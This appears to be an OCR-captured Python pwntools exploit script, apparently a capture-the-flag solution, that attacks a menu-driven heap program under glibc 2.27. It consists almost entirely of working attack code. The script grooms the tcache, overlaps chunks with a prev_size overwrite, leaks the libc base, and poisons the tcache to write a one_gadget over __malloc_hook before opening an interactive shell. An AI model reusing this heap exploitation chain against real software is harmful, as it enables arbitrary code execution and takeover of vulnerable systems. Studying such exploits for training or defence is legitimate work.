 ```python
def add(index,size):
	choice(1)
	sh.recvuntil('?')
	sh.sendline(str(index))
	sh.recvuntil('?')
	sh.sendline(str(size))

def edit(index,content,full=False):
	choice(3)
	sh.recvuntil('?')
	sh.sendline(str(index))
	sh.recvuntil(':')
	if full:
		s(content)
	else:
		sh.sendline(content)

def show(index):
	choice(2)
	sh.recvuntil('?')
	sh.sendline(str(index))

def delete(index):
	choice(4)
	sh.recvuntil('?')
	sh.sendline(str(index))

libc=ELF('/glibc/2.27/amd64/lib/libc-2.27.so')
add(0,0x80) #A
add(1,0x18) #B
add(2,0xf0) #C
for i in range(7):
	add(i+3,0x80)

for i in range(7):
	delete(i+3)
	add(i+3,0xf0)

for i in range(7):
	delete(i+3)
delete(0)
edit(1,'\x00'*0x10+p64(0xb0),full=True)
delete(2)
for i in range(8):
	add(3,0x80)
show(1)
ru('\n')
libc_base=u64(ru('\n').replace('\n','').ljust(8,'\x00'))-0x3afca0
malloc_hook=libc_base+libc.symbols['__malloc_hook']
realloc=libc_base+libc.symbols['realloc']
gadget=[0x41666,0xdeed2]
onegadget=libc_base+gadget[1]
info_addr('libc_base',libc_base)
info_addr("malloc_hook",malloc_hook)
info_addr("onegadget",onegadget)
add(2,0x10)
delete(2)
edit(1,p64(malloc_hook-0x8))
add(3,0x10)
add(4,0x18)
edit(4,p64(onegadget)+p64(realloc+2))
add(1,0x10)
sh.interactive()
```
